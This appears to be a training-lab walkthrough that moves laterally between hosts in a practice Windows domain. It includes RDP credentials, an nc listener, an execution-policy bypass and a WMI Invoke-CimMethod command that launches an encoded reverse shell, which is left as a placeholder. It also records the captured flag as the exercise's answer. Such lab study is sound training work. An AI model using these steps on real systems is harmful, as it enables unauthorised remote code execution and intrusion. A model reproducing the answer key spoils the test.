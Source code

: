 Topics: WMI and WinRM Lateral Movement
Questions 2
Launch VM Group 2 and once connected as jeff on client74 and try to move laterally to web04 in order to get the flag located on the administrator's desktop.

# Answer
OS{4c27babc6b13dff18abb2620426458fa}

xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.195.74

nc -lvnp 443

# Open powershell 

powershell -ep bypass

# Create a credentials 
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

# Execute Payload using WMI
```
$options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.195.72 -Credential $credential -SessionOption $Options
$command = '# Paste the encoded pwsh-revshell';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
...
ProcessId ReturnValue PSComputerName
--------- ----------- --------------
      792           0 192.168.195.72
...

PS C:\Users\Administrator\Desktop> type flag.txt
OS{4c27babc6b13dff18abb2620426458fa}




